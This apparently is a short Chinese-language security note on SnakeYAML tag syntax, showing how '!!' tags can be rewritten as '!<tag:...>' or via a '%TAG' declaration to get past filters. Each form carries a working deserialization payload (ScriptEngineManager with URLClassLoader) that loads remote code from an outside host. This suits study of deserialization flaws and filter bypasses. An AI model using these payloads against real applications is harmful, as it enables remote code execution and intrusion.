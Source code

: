 `!!`实际上就是一个Tag，等同于`"tag:yaml.org,2002:"`加一个后缀。除了这里声明的类，Tag就是`"tag:yaml.org,2002:"`+类的全限定名，比如`!!javax.script.ScriptEngineManager`的Tag是`tag:yaml.org,2002:javax.script.ScriptEngineManager`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028112037343.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028113132038.png)

除此之外还有两种替换方式

### `!<tag>`

`!!javax.script.ScriptEngineManager`换为`!<tag:yaml.org,2002:javax.script.ScriptEngineManager>`

```java
!<tag:yaml.org,2002:javax.script.ScriptEngineManager> " +
                "[!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL>" +
                " [\"http://b1ue.cn/\"]]]]
```

### `%TAG`

用%TAG声明一个 TAG，后面使用`!`就可以自动加上Tag

```java
%TAG !      tag:yaml.org,2002:
---
!javax.script.ScriptEngineManager [!java.net.URLClassLoader [[!java.net.URL ["http://b1ue.cn/"]]]]
```





ref：

https://www.leavesongs.com/PENETRATION/jdbc-injection-with-hertzbeat-cve-2024-42323.html
